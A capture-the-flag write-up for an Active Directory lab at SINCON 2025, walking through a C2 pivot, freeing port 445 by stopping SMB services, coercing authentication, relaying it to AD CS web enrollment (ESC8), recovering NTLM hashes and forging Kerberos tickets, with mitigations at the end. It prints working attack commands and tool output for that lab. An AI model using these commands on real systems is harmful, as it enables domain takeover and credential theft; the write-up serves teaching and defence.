







View the Project on GitHub ASYNC-Security/async-security.github.io
SINCON CTF 2025
During SINCON 2025, we sponsored and organized an Active Directory CTF with the Range Village. We saw an incredible turnout with nearly 50 people joining us in person, including many newcomers who had never tackled Active Directory challenges before!
This is the first part of a two-part series that will provide an overview of the more “challenging” part of the CTF, which involved exploiting ESC8 from a pivot in a restrictive environment by temporarily unbinding SMB ports.
[insert img here]
Introduction
The given scenario was an assumed breach via an exposed Wi-Fi access point with weak credentials (RN-Lab:rangevillagelab), which placed the attacker directly into the jess.kingdom Active Directory domain.
As well as the following scope, and contextual information:
- Any domain-joined machine in the ranges:
10.3.10.0/24and10.3.20.0/24is in scope. - All machines are fully-patched Windows Server 2022, including the Domain Controller.
- You should refrain from running disruptive actions such as forcefully changing passwords, running nmap scans or locking accounts.
- There are a total of 12 flags.
To keep this brief, I’ll skip directly to Flag 8, where the CTF’s challenges became significantly more complex and engaging. Which unfortunately only had 2 solves by Nicholas and Edwin.
Context
From Flag 6, we’ll obtain local administrator access to the TABULARIUM machine. And, the following commands were used to create a new user gatari with administrative privileges:
net user gatari P@ssw0rd /add
net localgroup Administrators gatari /add
From Flag 7, we’ll obtain the credentials for the JESS\Doros_ARCHIVON user from a KeePass database in an SMB share that we can decrypt with a master key that was found in Flag 5.
Network Topology

The internal machines (SCRIPTORIUM and PORTICUS) are unable to directly communicate with our machine due to the firewall rules in place and similarly, we are unable to directly communicate with them. This is a common scenario where we’ll need to pivot through a compromised machine to access other machines in the network.
Pivots and C2
We’re able to verify that our backdoored user is a local administrator to TABULARIUM by running the following command:

The presence of the (Pwn3d!) message indicates that the authenticated user is a local administrator, note that this is a local user and not a domain user.
After connecting to the Wi-Fi access point, you will be assigned an IP address in the 10.3.99.0/24 range, which is accessible via the TABULARIUM machine. We can verify this by pinging our IP address from TABULARIUM (in this case, it is 10.3.99.2):

Command and Control (C2)
To establish a C2 channel, we’ll be using Cobalt Strike with an HTTP listener. The remainder of the attacks can also be performed using any other C2, but I’ve had the best experiences with Havoc and recently had success with AdaptixC2.
After setting up our listener and generating payloads, we can upload the payload onto TABULARIUM:

Execute via your preferred method, but if using netexec remember to run with --no-output to prevent it from blocking the tool:

After executing the payload, we can verify that we have a session established with TABULARIUM:

After obtaining a pivot point at TABULARIUM, we can use tunnel our traffic through the beacon channel with socks5 to hit SCRIPTORIUM and PORTICUS. This is done by setting up a socks5 proxy on the Cobalt Strike beacon:
[05/26 01:23:39] beacon> socks 1081 socks5
[05/26 01:23:39] [+] started SOCKS5 server on: 1081
[05/26 01:23:39] [+] host called home, sent: 16 bytes
We can verify that we can now access SCRIPTORIUM.

Enumerating ESC8
Before this point, there have been no (intended) attack paths that involve Active Directory Certificate Services (ADCS). However, we can see that ADCS is installed with the DC-JESS-CA Common Name (CN) and the PALACE-DC.jess.kingdom DC is the issuing CA.

Using any domain user, we can enumerate for enabled Certificate Templates and generic vulnerabilities (ESC) using certipy:
certipy find -u 'Doros_ARCHIVON' -p 'bO3n21E6rc' -target 'PALACE-DC.jess.kingdom' -stdout -vulnerable

ESC8, a TLDR
ESC8 is a misconfiguration that is extremely common in many environments, and it boils down to allowing enrollment of certificates through the web endpoint of the Certificate Authority (i.e. http://palace-dc.jess.kingdom/certsrv). The attack occurs when an attacker is able to “coerce” authentication from a machine, or user and relay their credentials to the web endpoint and obtain either a User or Machine certificate.

Unlike protocols such as SMB and LDAP that support signing, the HTTP protocol does not have support for signing NTLM authentication so the attacker can relay any NTLM authentication to the HTTP web endpoint. As such, this attack is possible regardless of the signing configuration of the domain.
Why ESC8 Exists
If some lightbulb hasn’t gone off yet, the presence of this misoncifugration in an environment is usually a sign that domain compromise is soon to follow. This is because SMB authentication coercion is native to Windows, and is not seen as a security risk by Microsoft.
Additionally, the configuration required to enable ESC8 is vulnerable by default when installing Web Enrollment on the CA server. The following commands were run on a default installation of ADCS to enable the misconfiguration:
Install-WindowsFeature -Name ADCS-Web-Enrollment
Install-AdcsWebEnrollment -Force
Mitigations, and additional caveats will be discussed later, but for now, let’s focus on how to exploit this misconfiguration.
Challenges in Restricted Environment
If you recall from the network topology diagram from earlier, the SCRIPTORIUM and PORTICUS machines are unable to directly communicate with our machine due to the firewall rules in place. This means that we cannot coerce authentication from either of these machines to our listener, and relay it to the CA directly.
Instead, we’ll need to use TABULARIUM as a pivot point to relay the authentication from SCRIPTORIUM or PORTICUS to our listener.

SMB Unbinding
We can perform the above relay by doing a reverse port forward on TABULARIUM to our machine on TCP/445 (SMB), however we will soon find an access denied.
[05/26 02:13:23] beacon> rportfwd 445 0.0.0.0 445
[05/26 02:13:23] [+] started reverse port forward on 445 to 0.0.0.0:445
[05/26 02:13:23] [*] Tasked beacon to forward port 445 to 0.0.0.0:445
[05/26 02:13:23] [+] host called home, sent: 10 bytes
[05/26 02:13:23] [-] Could not bind to 445
This is occuring because TABULARIUM is a domain-joined Windows machine, and the SYSTEM process is currently using it for the SMB service.
PID 4 is the
Systemprocess, which is responsible for managing system-level services and processes.
[05/26 02:13:44] beacon> run netstat -ano
[05/26 02:13:44] [*] Tasked beacon to run: netstat -ano
[05/26 02:13:45] [+] host called home, sent: 30 bytes
[05/26 02:13:45] [+] received output:
Active Connections
Proto Local Address Foreign Address State PID
TCP 0.0.0.0:135 0.0.0.0:0 LISTENING 1000
TCP 0.0.0.0:445 0.0.0.0:0 LISTENING 4
TCP 0.0.0.0:1433 0.0.0.0:0 LISTENING 7624
TCP 0.0.0.0:3389 0.0.0.0:0 LISTENING 1100
TCP 0.0.0.0:5985 0.0.0.0:0 LISTENING 4
TCP 0.0.0.0:5986 0.0.0.0:0 LISTENING 4
In the past, the go-to method for “unbinding” SMB is using PortBender to forcefully redirect traffic on TCP/445 using WinDivert64.sys. However, from my testing this seems to no longer be functional and/or maintained.
Luckily, there’s an alternative method to release the SMB service from port 445: just force-stop the user-space services that provide SMB functionality.
Running the following commands in this order will release the port:
sc stop lanmanserver
sc stop srv2
sc stop srvnet
[05/26 02:23:21] beacon> run sc stop lanmanserver
[05/26 02:23:21] [*] Tasked beacon to run: sc stop lanmanserver
[05/26 02:23:21] [+] host called home, sent: 38 bytes
[05/26 02:23:21] [+] received output:
SERVICE_NAME: lanmanserver
TYPE : 30 WIN32
STATE : 3 STOP_PENDING
(STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
WIN32_EXIT_CODE : 0 (0x0)
SERVICE_EXIT_CODE : 0 (0x0)
CHECKPOINT : 0x0
WAIT_HINT : 0x4e20
[05/26 02:23:52] beacon> run sc stop srv2
[05/26 02:23:52] [*] Tasked beacon to run: sc stop srv2
[05/26 02:23:53] [+] host called home, sent: 30 bytes
[05/26 02:23:53] [+] received output:
SERVICE_NAME: srv2
TYPE : 2 FILE_SYSTEM_DRIVER
STATE : 1 STOPPED
WIN32_EXIT_CODE : 0 (0x0)
SERVICE_EXIT_CODE : 0 (0x0)
CHECKPOINT : 0x0
WAIT_HINT : 0x0
[05/26 02:23:58] beacon> run sc stop srvnet
[05/26 02:23:58] [*] Tasked beacon to run: sc stop srvnet
[05/26 02:23:58] [+] host called home, sent: 32 bytes
[05/26 02:23:58] [+] received output:
SERVICE_NAME: srvnet
TYPE : 2 FILE_SYSTEM_DRIVER
STATE : 1 STOPPED
WIN32_EXIT_CODE : 0 (0x0)
SERVICE_EXIT_CODE : 0 (0x0)
CHECKPOINT : 0x0
WAIT_HINT : 0x0
Next, we can check netstat again and find that TCP/445 is no longer in use.
[05/26 02:24:35] beacon> run netstat -ano
[05/26 02:24:35] [*] Tasked beacon to run: netstat -ano
[05/26 02:24:35] [+] host called home, sent: 30 bytes
[05/26 02:24:35] [+] received output:
Active Connections
Proto Local Address Foreign Address State PID
TCP 0.0.0.0:135 0.0.0.0:0 LISTENING 1000
TCP 0.0.0.0:1433 0.0.0.0:0 LISTENING 7624
TCP 0.0.0.0:3389 0.0.0.0:0 LISTENING 1100
TCP 0.0.0.0:5985 0.0.0.0:0 LISTENING 4
TCP 0.0.0.0:5986 0.0.0.0:0 LISTENING 4
And, we can proceed to perform the reverse port forward once again with no errors:
[05/26 02:26:27] beacon> rportfwd 445 0.0.0.0 445
[05/26 02:26:27] [+] started reverse port forward on 445 to 0.0.0.0:445
[05/26 02:26:27] [*] Tasked beacon to forward port 445 to 0.0.0.0:445
[05/26 02:26:27] [+] host called home, sent: 10 bytes
This can be verified by running a curl against ourselves at TCP/445 and catching the request on our host:
[05/26 02:27:06] beacon> powershell curl http://127.0.0.1:445
[05/26 02:27:06] [*] Tasked beacon to run: curl http://127.0.0.1:445
[05/26 02:27:06] [+] host called home, sent: 131 bytes
[05/26 02:27:16] [+] received output:
#< CLIXML
U2U2Self
The last portion of the ESC8 attack (after obtaining a Machine or User certificate) is to exchange the certificate for a TGT (Ticket Granting Ticket) for the jess.kingdom domain.
When a certificate is used to authenticate (PKINIT), the resultant ticket will include a PAC_CREDENTIAL_INFO structure that contains the NTLM hash of the user or machine account. The authenticating user’s NTLM hash can then be recovered by performing a S4U2Self with a U2U extension.
More details of this attack can be found here: Unpac-The-Hash

Exploiting ESC8
Now that we are able to redirect traffic from TABULARIUM:445 to our machine, we can proceed with the attack:
- Coerce SMB authentication via Spooler using printerbug.py from
SCRIPTORIUMtoTABULARIUM - Forward SMB from
TABULARIUM:445to ourATTACKER:445 - Catch authentication, and relay to
http://palace-dc.jess.kingdom/certsrv/certfnsh.aspand request for aMachinecertificate asSCRIPTORIUM$.
After obtaining the Machine certificate, we can use it to authenticate to the DC as SCRIPTORIUM$ and “exchange” the certificate for the NTLM hash of the authenticating user.
SMB Coercion
In default installations of Windows Server, the Spooler service is installed and can be used to coerce SMB authentication via the RpcRemoteFindFirstPrinterChangeNotificationEx method. This is not seen as a security risk by Microsoft.
We can call this function remotely with printerbug.py to coerce authentication from SCRIPTORUIM to TABULARIUM:

Relay to CA
We’ll use ntlmrelayx.py to relay the authentication to the CA web endpoint, which will request a Machine certificate for any authenticating user.
ntlmrelayx.py -t 'http://palace-dc.jess.kingdom/certsrv/certfnsh.asp' -smb2support --adcs --template 'Machine' --no-http-server

Exchanging for NTLM
We can use the obtained SCRIPTORIUM$ certificate (named SCRIPTORIUM$.pfx) to authenticate to the DC and obtain the NTLM hash of the authenticating user. This is done by running the following command:

Logon Dilemma
After obtaining the NTLM hash of SCRIPTORIUM$, we can use it to authenticate to SCRIPTORIUM.jess.kingdom. You’ll find that you are indeed authenticated, however you don’t have the (Pwn3d!) message.

This is because computer accounts do not necessarily have local administrator access to themselves. There are 2 main workarounds to this:
- Use
S4U2selfto obtain a Service Ticket to yourself as a Domain Administrator - Use your
NTLMhash to forge a Silver Ticket for any SPN to yourself as a Domain Administrator
S4U2Self
S4U2Self is an extension of Kerberos that allows for services to obtain a service ticket on behalf of any user. Machines in Active Directory are services, that have a number of Service Principal Names (SPNs) - some of which you may recognize: cifs, host, rpcss, wsman, etc.
Using the above protocol, we can obtain a service ticket for cifs service to ourselves as the Administrator account:
getST.py -self -impersonate 'Administrator' -altservice 'cifs/SCRIPTORIUM.jess.kingdom' 'jess.kingdom'/'SCRIPTORIUM$' -hashes ':cdc728e1aefc4e997d6d895fbbaec3f9'

The attributes of this ticket can also be found using describeTicket.py, which shows that is a valid ticket for the cifs/SCRIPTORIUM.jess.kingdom service, for the Administrator user in the jess.kingdom realm:
describeTicket.py Administrator@cifs_SCRIPTORIUM.jess.kingdom@JESS.KINGDOM.ccache
Impacket v0.13.0.dev0+20250516.105908.a63c652 - Copyright Fortra, LLC and its affiliated companies
[*] Number of credentials in cache: 1
[*] Parsing credential[0]:
[*] Ticket Session Key : a3c0173f32c7c3ad93d7dddf7d549e90
[*] User Name : Administrator
[*] User Realm : jess.kingdom
[*] Service Name : cifs/SCRIPTORIUM.jess.kingdom
[*] Service Realm : JESS.KINGDOM
[*] Start Time : 26/05/2025 03:02:06 AM
[*] End Time : 26/05/2025 13:02:06 PM
[*] RenewTill : 27/05/2025 03:02:08 AM
[*] Flags : (0x40a10000) forwardable, renewable, pre_authent, enc_pa_rep
[*] KeyType : rc4_hmac
[*] Base64(key) : o8AXPzLHw62T193ffVSekA==
[*] Kerberoast hash : ...redacted...
[*] Decoding unencrypted data in credential[0]['ticket']:
[*] Service Name : cifs/SCRIPTORIUM.jess.kingdom
[*] Service Realm : JESS.KINGDOM
[*] Encryption type : aes256_cts_hmac_sha1_96 (etype 18)
[-] Could not find the correct encryption key! Ticket is encrypted with aes256_cts_hmac_sha1_96 (etype 18), but no keys/creds were supplied
And subsequently, this ticket can be used for Kerberos authentication to SCRIPTORIUM as Administrator:

Silver Ticket
Similarly, since SCRIPTORIUM$ is technically a service account that services SPNs that are applied on SCRIPTORIUM. We can forge a silver ticket for the cifs/SCRIPTORIUM.jess.kingdom service to ourselves as Administrator:
ticketer.py -nthash 'cdc728e1aefc4e997d6d895fbbaec3f9' -domain-sid 'S-1-5-21-54816899-3316220569-2952399223' -domain 'jess.kingdom' -spn 'cifs/SCRIPTORIUM.jess.kingdom' -user-id 500 Administrator

describeTicket.py Administrator.ccache
Impacket v0.13.0.dev0+20250516.105908.a63c652 - Copyright Fortra, LLC and its affiliated companies
[*] Number of credentials in cache: 1
[*] Parsing credential[0]:
[*] Ticket Session Key : 616e684567724f664d7a6b536b6f7073
[*] User Name : Administrator
[*] User Realm : JESS.KINGDOM
[*] Service Name : cifs/SCRIPTORIUM.jess.kingdom
[*] Service Realm : JESS.KINGDOM
[*] Start Time : 26/05/2025 02:55:22 AM
[*] End Time : 24/05/2035 02:55:22 AM
[*] RenewTill : 24/05/2035 02:55:22 AM
[*] Flags : (0x50a00000) forwardable, proxiable, renewable, pre_authent
[*] KeyType : rc4_hmac
[*] Base64(key) : YW5oRWdyT2ZNemtTa29wcw==
[*] Kerberoast hash : ..redacted..
[*] Decoding unencrypted data in credential[0]['ticket']:
[*] Service Name : cifs/SCRIPTORIUM.jess.kingdom
[*] Service Realm : JESS.KINGDOM
[*] Encryption type : rc4_hmac (etype 23)
[-] Could not find the correct encryption key! Ticket is encrypted with rc4_hmac (etype 23), but no keys/creds were supplied
This ticket can be used for Kerberos authentication to SCRIPTORIUM as Administrator, exactly the same as before:

Note that silver tickets can be forged entirely offline, and do not require any interaction with the domain controller. This is because the ticket is signed with the service account’s NTLM hash, which we already have.
However, there are some glaring IOCs depending on the tool used to forge the ticket. For example, the ticket that we just forged has an expiration date in 24/05/2035, which is 10 years in the future. Additionally, the ticket is encrypted with rc4_hmac instead of the domain’s default encryption type, which is aes256_cts_hmac_sha1_96.
Additionally, the forgery of a silver ticket is only possible if you have the NTLM hash or AES key of the service account. Whereas, the S4U2Self method can be applied in cases where you only have Kerberos authentication as the account, such as during an attack invlving Unconstrained Delegation.
How about Users?
Similarly, SMB authentication coercion from domain user accounts can also be relayed to web endpoints for the User certificate template. The process is exactly the same, and you can “simulate” the authentication process by manually authenticating to TABULARIUM.
This is a common attack path that is often overlooked, the coercion can come in the form of the usual .lnk files being dropped in global shares. The traditional TTP has been relaying these authentication requests to unsigned SMB endpoints, or cracking them offline.
We’ll also be using certipy for relaying user authentication, as I’ve had issues getting ntlmrelayx.py to work in this particular case.
certipy relay -target 'PALACE-DC.jess.kingdom' -template 'User'

Note that the authentication target shows the CA, as it has been relayed via TABULARIUM =)

And similarly to before, we can obtain the NTLM hash of the user account by exchanging the certificate for a TGT:
certipy auth -pfx 'doros_archivon.pfx' -dc-ip '10.3.20.31'
Certipy v5.0.2 - by Oliver Lyak (ly4k)
[*] Certificate identities:
[*] SAN UPN: 'Doros_ARCHIVON@jess.kingdom'
[*] Using principal: 'doros_archivon@jess.kingdom'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'doros_archivon.ccache'
[*] Wrote credential cache to 'doros_archivon.ccache'
[*] Trying to retrieve NT hash for 'doros_archivon'
[*] Got hash for 'doros_archivon@jess.kingdom': aad3b435b51404eeaad3b435b51404ee:96b5326207a074816bdd447bc7784ad4
Mitigations
In the breaking whitepaper by SpecterOps: Certified Pre-Owned. It is stated in PREVENT8 that the following mitigations should be applied to prevent the exploitation of ESC8:
- Disable NTLM Authentication
- Enable HTTPS and Enable Extended Protection for Authentication (EPA)
In most environments, disabling NTLM authentication is not feasible, as it will break many legacy applications that rely on NTLM authentication.
HTTPS + EPA
The second mitigation approach is more practical, however, many individuals incorrectly interpret the “and” requirement as an “or” option. It’s important to recognize that simply implementing and enforcing TLS by itself will not stop ESC8 exploitation. Extended Protection for Authentication (EPA) is the security control that actually prevents relaying of NTLM authentication to the CA web endpoint.
Consider the following example, where the PALACE-DC.jess.kingdom CA web endpoint is configured to use HTTPS but does not have EPA enabled. This was configured with reference to the official documentation: here


The same attack as before, with a slight modification to the ntlmrelayx.py command to use HTTPS instead of HTTP will still work:
ntlmrelayx.py -t 'https://palace-dc.jess.kingdom/certsrv/certfnsh.asp' -smb2support --adcs --template 'Machine' --no-http-server

However, after setting “Extended Protection” to “Required” in the CA web enrollment configuration, the same attack will now fail.

Behind the Scenes
As ESC8 is a misconfiguration that I see extremely often in the wild, I really wanted to create a CTF challenge that would allow participants to experience the exploitation of this misconfiguration in a controlled environment - however, due to the nature of the misconfiguration, it’s challenging to include ESC8 in a CTF scenario without enabling participants to completely compromise the entire domain starting from just a basic domain user account.
Since authentication coercion is native to Windows and can’t be effectively patched without significantly disrupting the operating system’s functionality, Microsoft has suggested general mitigations like disabling NTLM authentication and enforcing SMB and LDAP signing.
However, disabling NTLM authentication is extremely difficult to do in practice and SMB/LDAP signing does not prevent relay attacks against web enrollment as HTTP does not support signing NTLM authentication.
The solution that we came up with is:
- Disabling Spooler Service
- RPC Filtering
- Network Segmentation
Disabling Spooler Service
If you attempt to perform the attack with another machine, for example: KNIGHT-HALL.jess.kingdom. You’ll find that printerbug.py will fail with the following error:
[*] Attempting to trigger authentication via rprn RPC at KNIGHT-HALL.jess.kingdom
[-] An unhandled exception has occured. Trying next host:
[-] SMB SessionError: code: 0xc0000034 - STATUS_OBJECT_NAME_NOT_FOUND - The object name is not found.
This occurs because the Spooler service is not running on KNIGHT-HALL, and thus the problematic RPC methods cannot be called.

RPC Filters
There are also other authentication coercion methods that rely on RPC, such as DFSCoerce which relies on NetrDfsRemoveStdRoot and NetrDfsAddStdRoot from MS-DFSNM and PetitPotam which relies on EfsRpcOpenFileRaw from MS-EFSRPC. It is not feasible to simply disable the RPC services, as this would definitely break many applications that rely on RPC for communication.
To mitigate this, we applied an extremely restrictive RPC filter on all domain-joined machines which blocks all inbound RPC requests. In real environments, this rule should be applied with more fine-grained access controls rather than outright blocking all traffic:
For example, consider the following RPC filter rule that blocks all inbound requests with the protocol UUID c681d488-d850-11d0-8c52-00c04fd90f7e:

The protocol UUID: c681d488-d850-11d0-8c52-00c04fd90f7e corresponds to the MS-EFSR protocol which contains a set of RPC methods (EfsRpcOpenFileRaw, etc.) that can be used to coerce authentication via EFS - this is meant to prevent PetitPotam.
Attempting to perform the attack with KNIGHT-HALL will result in the following error:
proxychains /opt/tools/PetitPotam/PetitPotam.py -d 'jess.kingdom' -u 'Doros_ARCHIVON' -p 'bO3n21E6rc' TABULARIUM.jess.kingdom KNIGHT-HALL.jess.kingdom
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] DLL init: proxychains-ng 4.17
/opt/tools/PetitPotam/PetitPotam.py:23: SyntaxWarning: invalid escape sequence '\ '
| _ \ ___ | |_ (_) | |_ | _ \ ___ | |_ __ _ _ __
___ _ _ _ ___ _
| _ \ ___ | |_ (_) | |_ | _ \ ___ | |_ __ _ _ __
| _/ / -_) | _| | | | _| | _/ / _ \ | _| / _` | | ' \
_|_|_ \___| _\__| _|_|_ _\__| _|_|_ \___/ _\__| \__,_| |_|_|_|
_| """ |_|"""""|_|"""""|_|"""""|_|"""""|_| """ |_|"""""|_|"""""|_|"""""|_|"""""|
"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'
PoC to elicit machine account authentication via some MS-EFSRPC functions
by topotam (@topotam77)
Inspired by @tifkin_ & @elad_shamir previous work on MS-RPRN
Trying pipe lsarpc
[-] Connecting to ncacn_np:KNIGHT-HALL.jess.kingdom[\PIPE\lsarpc]
[proxychains] Strict chain ... 127.0.0.1:1081 ... 10.3.10.11:445 ... OK
[+] Connected!
[+] Binding to c681d488-d850-11d0-8c52-00c04fd90f7e
[+] Successfully bound!
[-] Sending EfsRpcOpenFileRaw!
[-] Got RPC_ACCESS_DENIED!! EfsRpcOpenFileRaw is probably PATCHED!
[+] OK! Using unpatched function!
[-] Sending EfsRpcEncryptFileSrv!
Something went wrong, check error status => SMB SessionError: code: 0xc00000b0 - STATUS_PIPE_DISCONNECTED - The specified named pipe is in the disconnected state.
And, no authentication is coerced from KNIGHT-HALL to TABULARIUM.
Network Segmentation
In order to prevent participants from simply spraying coercion cross the domain, and getting a hit on SCRIPTORIUM.jess.kingdom, we have placed SCRIPTORIUM on a separate network segment that is only accessible via TABULARIUM. This means that participants will minimally need to compromise TABULARIUM to access SCRIPTORIUM, which effectively places it as the entrypoint to the second-half of the CTF.